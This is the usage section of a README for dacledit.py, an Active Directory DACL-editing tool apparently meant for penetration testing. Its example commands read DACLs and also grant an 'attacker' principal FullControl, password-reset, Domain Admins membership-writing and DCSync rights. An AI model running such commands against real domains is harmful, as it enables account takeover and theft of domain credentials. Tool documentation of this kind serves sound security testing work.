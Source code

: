 ```
                        Action to operate on the DACL (default: read)
  -file FILENAME        Filename/path (optional for backup, required for restore)
  -ace-type {allowed,denied}
                        ACE Type to add or remove (default: allowed)
  -rights {FullControl,ResetPassword,WriteMembers,DCSync}
                        Rights to write/remove in target DACL (default: FullControl)
  -rights-guid RIGHTS_GUID
                        Manual GUID representing the right to write/remove
  -inheritance          Enable inheritance in ACE flag (useful for containers/OUs)
```
## Usage Examples

### Reading DACLs
```bash
# Read DACL of a specific user
python3 dacledit.py domain.local/user:password -target Administrator

# Read DACL using target SID
python3 dacledit.py domain.local/user:password -target-sid S-1-5-21-domain-500

# Read DACL using Distinguished Name
python3 dacledit.py domain.local/user:password -target-dn "CN=Administrator,CN=Users,DC=domain,DC=local"

# Read DACL with principal filter (show only ACEs for specific principal)
python3 dacledit.py domain.local/user:password -target Administrator -principal attacker
```

### Writing/Adding ACEs
```bash
# Grant FullControl to attacker on target user
python3 dacledit.py domain.local/user:password -action write -target victim -principal attacker -rights FullControl

# Grant ResetPassword right
python3 dacledit.py domain.local/user:password -action write -target victim -principal attacker -rights ResetPassword

# Grant WriteMembers right (for groups)
python3 dacledit.py domain.local/user:password -action write -target "Domain Admins" -principal attacker -rights WriteMembers

# Grant DCSync rights on domain root
python3 dacledit.py domain.local/user:password -action write -target-dn "DC=domain,DC=local" -principal attacker -rights DCSync

# Add custom right using GUID
python3 dacledit.py domain.local/user:password -action write -target victim -principal attacker -rights-guid 00299570-246d-11d0-a768-00aa006e0529
```
